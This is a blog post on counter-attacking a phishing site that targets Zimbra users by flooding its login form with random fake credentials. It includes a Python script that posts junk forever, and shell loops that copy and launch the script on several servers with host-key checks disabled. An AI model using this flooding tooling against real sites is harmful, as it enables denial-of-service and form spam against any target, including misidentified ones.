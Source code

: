 ```yaml
---
author: Cristian Livadaru
categories:
- security
date: "2018-08-01T12:16:24Z"
description: ""
draft: false
image: https://images.unsplash.com/photo-1510251197878-a2e6d2cb590c?ixlib=rb-0.3.5&q=80&fm=jpg&crop=entropy&cs=tinysrgb&w=1080&fit=max&ixid=eyJhcHBfaWQiOjExNzczfQ&s=b63122614d1a6f228c5ebf24c2d5635c
slug: how-to-deal-with-phishing-sites
summary: |-
  I've been receiving some phishing mails aimed at Zimbra users.
  I could just delete and ignore them, but where's the fun in that?
tags:
- security
title: How to deal with phishing sites
---
```



Instead of just deleting the mail, I thought to strike back and flood the site with some fake data.
First, you need some proxy or a new server, you could use [DigitalOcean](https://m.do.co/c/bbc69fd7ab10) for example.
Then you need to get the form fields that need to be filled: 

![2018-08-01_15-54-42](__GHOST_URL__/content/images/2018/08/2018-08-01_15-54-42.png)

Put everything in this python script (source: https://en.internetwache.org/pwning-a-paypal-phishing-site-11-03-2013/) 

```python
#!/usr/bin/python2.7
 
import random
import urllib2
import urllib
 
SPAMURL="***"
 
def randstr(leng):
    res = ""
    for i in xrange(0,leng):
        res = res + str(chr(random.randint(65,125)))
    return res
def sendSpamReq(url):
    data = urllib.urlencode({'username':randstr(8)+"@"+randstr(3)+".de",
                             'password':randstr(12)
   })
    urllib2.urlopen(urllib2.Request(url,data))
count = 0
while True: 
    count=count+1
    try:
        sendSpamReq(SPAMURL)
        print "["+str(count)+"] Success"
    except:
        print "["+str(count)+"] Failed"
```

change the SPAMURL and the form fields accordingly (username and password in my case)
Run the script and leave it running, this will flood the phisher with a lot of fake data which will hopefully make the rest of the data they might have useless.

## Update

Apparently, after 4k Mails, the phisher blocked my IP. Looks like someone want's to play. Ok, let's go, my friend. 

![2018-08-01_16-48-38](__GHOST_URL__/content/images/2018/08/2018-08-01_16-48-38.png)

On your machine create a file called `flood-hosts` and add each IP of your server in this file, one line per IP. 

Then copy the file to each server

```
for dest in $(<flood-hosts); do
  scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null flood.py root@${dest}:/root/
done
```

and start it 

```
for dest in $(<flood-hosts); do
  ssh root@${dest} -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null "nohup python flood.py > /dev/null 2>&1 &"
done
```

and you can start it several times of course.

